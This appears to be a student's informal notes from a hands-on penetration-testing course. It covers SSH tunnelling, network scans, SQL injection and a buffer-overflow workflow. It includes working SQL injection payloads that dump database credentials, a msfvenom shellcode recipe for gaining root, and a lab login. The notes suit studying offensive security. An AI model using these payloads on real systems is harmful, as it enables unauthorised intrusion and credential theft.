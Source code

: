 Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.37 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.30 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;# -----GOLDEN Statement for sql injecting


# Notes
ip 10.50.24.239
username YOPA-003-M
password Orionpax and no
stack 9
xfreerdp /v:10.50.23.50 /u:student +clipboard +dynamic-resolution +glyph-cache
ssh student@10.50.33.11 -X
sudo apt install nikto -y # install nitko
ssh -MS /tmp/jump student@10.50.24.239
ssh -S /tmp/jump dummy
---
## Links
- (student guide)[https://sec.cybbh.io/public/security/latest/index.html]
- (cctc)[http://10.50.20.250:8000/resources]
- (vta)[https://vta.cybbh.space/horizon/project/instances/]
- (cve)[https://cve.mitre.org/]
- (exploit db)[https://www.exploit-db.com/]
---
## **Quick Find**
1.
---
## **definitons**
- executive summery - non technical just basic info to officer
- techical summary - indepth for peers
## **notes**
- attack model
  1. Reconnaissances - harvest emails, social engenering, passive , active
    - open source intelligence
    - **DOCUMENT SHIT** what, how, out come if error why, how it was fixed
    - collection - info important to misson
    -
  2. Weaponization -
    - using the creds you got from recon
    - using vunribilitys
    - collection - not attack
    - effect - attack
    - **TEST** - make sure that when you run a exploit it will not brake shit
    - plan - document results and what need to be fixed
    -
  3. Delivery
    -
  4. Explotation
    -
  5. Installation
    -
  6. Command and control
    -
  7. Action on objecyives
    -
- post is sending info
- get is reseving info
- head is geting header info and transfer status
- put is used to create and up date like appending
- http code
  - 10X == Informational
  - 2XX == Success
  - 30X == Redirection
  - 4XX == Client Error
  - 5XX == Server Error
- http is the frame css the design js is the functanaity
- cross site sripting the procces of injecting javacode in to a ligit site that runs js on users browser
- cross site scripting the Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
- two types of XSS
  - refective not perstant
  - stored persistant
- when attacking a file look up or pass though prompt ../../../../../file/name
- SQL is a bitch and pickie with its syntex
- data base and scema are the same
- select and union are most important
- dont look at defult schemas
  - information_schema
  - mysql
  - performance_scemma
  - steps
   1. find what works with options' or 1='1
   2. find colloms with otions that worked; UNION SELECT 1,2,3,4,5;#
   3. ********UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;#  fill in the info fro left to right********
   4. Audi' UNION SELECT id,2,name,pass,5 FROM session.user;# craft new gold statment
## **code**
- multiplexing tunneling
  - M multiplex
  - S where we save
  - O uses forward and cancel
- nitko -h ip or web address
- SQL
  - SHOW DATABASES; # shows database
  - USE session; # like cd
  - SELECT * FROM session; shows all items in the data base
  - select * from session.car # gets info from the item in that database in this case car
  - select * from session.Tire UNION select name,type,cost,color from session.car;
  - ' OR 1='1 select * from users where user = '' OR 1 = '1'
  - # and -- comment
  - @@ version # give verson
  - UNION SELECT 1,2,3,4,5;#
  - UNION select <column>,<column>,<column> from <database>.<table>
## **how to use**
- ssh -MS /file/location creds@ip
- ssh -S same/file something
- ssh -S /same/file -O forward -D 9050 || -L port:ip:port dummy
- for i in {1...254}; do (ping -c 1 ip.$i | grep "bytes from" &); done
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 ip 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 ip --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
## **examples**
- ssh -MS /tmp/jump student@10.50.24.239 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
- ssh -S /tmp/jump -O cancel -D 9050 dummy # ends forward
- ssh -S /tmp/jump -O forward -L 3333:192.168.28.111:2222 dummy
- ssh -S /tmp/jump -O cancel -L 3333:192.168.28.111:2222 dummy
## scan script
- for i in {96..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
## scans that are useful
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 192.168.28.111 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 192.168.28.111 --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
https://webbreacher.files.wordpress.com/2018/07/data-collection3.png?w=1136
cve.mitre.orgcve.mitre.org
CVE -  CVE
The mission of the CVE® Program is to identify, define, and catalog publicly disclosed cybersecurity vulnerabilities.
  
  
  
  buff
  find overflow valye
  find eip offset 
  env - gdb func (low quality gdb)
  remove env vars
  (show env ---- unset "var")
  run func
  overflow manually
  info proc map
  find /b 0xf7de1000,0xf7ffe000,0xff,0xe4
        (^is line after heap)(^ is line before stack)
  
 msfvenom -p linux/x86/exec CMD="whoami" -b "\x00" -f python
copy shell code 
  sudo ./func <<< $(python buff.py)
      if root 
      change the whoami to command you want to run
               
